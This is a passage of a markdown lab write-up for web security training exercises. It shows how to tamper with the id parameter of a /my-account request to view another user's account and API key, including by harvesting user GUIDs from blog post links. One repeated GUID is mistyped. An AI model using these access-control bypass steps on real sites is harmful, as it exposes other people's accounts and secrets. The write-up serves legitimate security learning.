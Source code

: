 7. #### **User ID controlled by request parameter**

    - Login as **wiener**, click **My account** and take note of the URL flow and the parameters sent.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=wiener)
    ```

    - Send the **/my-account GET** request to the **Repeater**.
    - Set the user **id** to **carlos** and repeat the request.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=carlos)

    D0CkMQ0ES35JORZdDVecVChxKZVmGxuL
    ```

8. #### **User ID controlled by request parameter, with unpredictable user IDs**

    - Login as **wiener**, click **My account** and take note of the URL flow and the parameters sent.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=cd88156d-5bab-4e7e-a6d4-f1c0a9fdbec3)
    ```

    - Send the **/my-account GET** request to the **Repeater**.
    - Look at the page source code of each of the blog posts.

    ```html
    postId=1
        ...
        ...<a href='/blogs?userId=02246043-bc39-4982-8ed6-643a0c294947'>administrator</a>...
        ...

    postId=2
        ...
        ...<a href='/blogs?userId=cd88156d-5bab-4e7e-a6d4-f1c0a9fdbec3'>wiener</a>...
        ...

    postId=3
        ...
        ...<a href='/blogs?userId=6070861f-8d1e-420d-85e4-44ba24f1f118'>carlos</a>...
        ...

    ```

    - Set the user **id** to the **carlos**'s **id** and repeat the request.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=070861f-8d1e-420d-85e4-44ba24f1f118)

    Your API Key is:    uDu438H9xfPjDfUfGMP2Hizv1LLmV4ld
    ```

9. #### **User ID controlled by request parameter with data leakage in redirect**

    - Login as **wiener**, click **My account** and take note of the URL flow and the parameters sent.

    ```plaintext
    https://<lab_url>/my-account    GET     (id=wiener)
    ```
